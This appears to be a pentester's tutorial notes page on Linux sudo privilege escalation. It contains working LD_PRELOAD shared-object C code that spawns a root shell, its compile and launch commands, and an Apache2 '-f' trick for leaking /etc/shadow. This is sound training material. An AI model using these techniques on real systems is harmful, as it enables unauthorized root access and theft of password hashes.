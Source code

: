 # ‼ Sudo

| Usage                          | Example Command |
| ------------------------------ | --------------- |
| Pour voir les droits d'un user | sudo -l         |

Essayer :

```bash
bash -p
```

The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.\
Any user can check its current situation related to root privileges using the `sudo -l` command.\
[https://gtfobins.github.io/](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.\
**Leverage application functions**

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.\
In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).

<div align="left">

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

</div>

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.\
**Leverage LD\_PRELOAD**\
On some systems, you may see the LD\_PRELOAD environment option.

<div align="left">

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

</div>

LD\_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld\_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD\_PRELOAD. If the "env\_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD\_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;\
1\. Check for LD\_PRELOAD (with the env\_keep option)\
2\. Write a simple C code compiled as a share object (.so extension) file\
3\. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file\
The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

```c
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

<div align="left">

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

</div>

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.\
We need to run the program by specifying the LD\_PRELOAD option, as follows;\
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`\
This will result in a shell spawn with root privileges.

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

